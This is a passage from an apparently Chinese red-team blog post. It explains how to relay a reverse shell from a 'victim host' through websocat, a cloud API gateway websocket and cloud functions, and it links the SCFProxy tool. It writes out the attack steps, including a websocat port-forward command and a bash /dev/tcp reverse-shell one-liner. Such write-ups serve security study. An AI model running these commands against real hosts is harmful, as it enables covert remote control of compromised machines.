 该工具提供了一个将 TCP 端口转发到 websocket 的功能。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002220-68b1c618-a5e2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002220-68b1c618-a5e2-1.png)

因此利用思路为：

1.  上传 websocat（或远程下载）到受害主机
2.  执行 `websocat -E --text tcp-l:127.0.0.1:12345 ws://apigatway` 转发端口
3.  反弹 shell 到本地端口 `bash -i >& /dev/tcp/127.0.0.1/12345 0>&1`
4.  攻击者连接 ws://apigate , 通过云函数进行消息中转，开始愉快的执行命令

通过 ws 连接时，API 网关会生成一个 ConnectionID 代表当前与之连接的一台机器，然而因为通过 ws 连接每次发消息都会调用一次云函数，我们只能知道发起连接的这台机器的 ConnectionID。为此我们还需要一台数据库，用来保存处于连接中的机器，方便进行消息中转。

最终结构如下：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002242-75d92de0-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002242-75d92de0-a5e2-1.jpeg)

### 效果

在受害主机上执行命令

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002255-7dce048a-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002255-7dce048a-a5e2-1.jpeg)

本地连接 API 网关，成功执行命令  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210426002312-87e975d0-a5e2-1.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20210426002312-87e975d0-a5e2-1.jpeg)

因为 API 网关的 ws 地址直接暴露会比较危险，因此在服务端增加了一个认证功能，未认证连接发送的信息仅会发送给经过认证的的连接。

工具
--

本文仅针对 3 种方式提供了一个简单的原理和思路讲解，并未深入代码细节和云函数的具体配置。但 3 中思路均已实现成工具，云函数的配置方法也包括在内，有需要的师傅可以康康 [SCFProxy](https://github.com/shimmeris/SCFProxy)。